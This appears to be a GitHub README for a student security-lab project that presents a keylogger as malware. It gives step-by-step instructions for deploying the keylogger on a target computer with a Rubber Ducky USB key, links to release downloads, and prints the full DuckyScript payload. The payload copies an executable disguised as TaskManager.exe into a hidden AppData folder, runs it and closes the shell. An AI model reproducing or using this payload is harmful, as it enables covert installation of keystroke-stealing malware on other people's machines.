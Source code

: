 # Project KeyLogger Labo SSI

## Project
A simple KeyLogger malware

## Installation
To set up the use of the malware, follow these steps:
1. - Equip yourself with a Rubber Ducky USB key
2. - Download the TaskManager.exe malware from GitHub (https://github.com/Aube33/keylogger-labo-ssi/releases)
3. - Download the inject.bin script for the Rubber Ducky from GitHub (https://github.com/Aube33/keylogger-labo-ssi/releases)
4. - Place the TaskManager.exe file at the root of your Rubber Ducky
5. - Place the inject.bin file at the root of your Rubber Ducky
6. - Plug the key into the target computer


## Webhook url


## DuckyScript source:

```
REM *** Copy TaskManager.exe from USB to %appdata%/.TaskManager/ ***
DELAY 500
STRING for /f %d in ('wmic volume get driveletter^, label ^| findstr "DUCKY"') do set duck=%d
ENTER
DELAY 500
STRING xcopy /y %duck%\TaskManager.exe %appdata%\.TaskManager\TaskManager.exe
ENTER
DELAY 500

REM *** Execute TaskManager.exe ***
STRING %appdata%\.TaskManager\TaskManager.exe
ENTER
DELAY 500

REM *** GTFO ***
STRING exit
ENTER
STRING exit
ENTER
```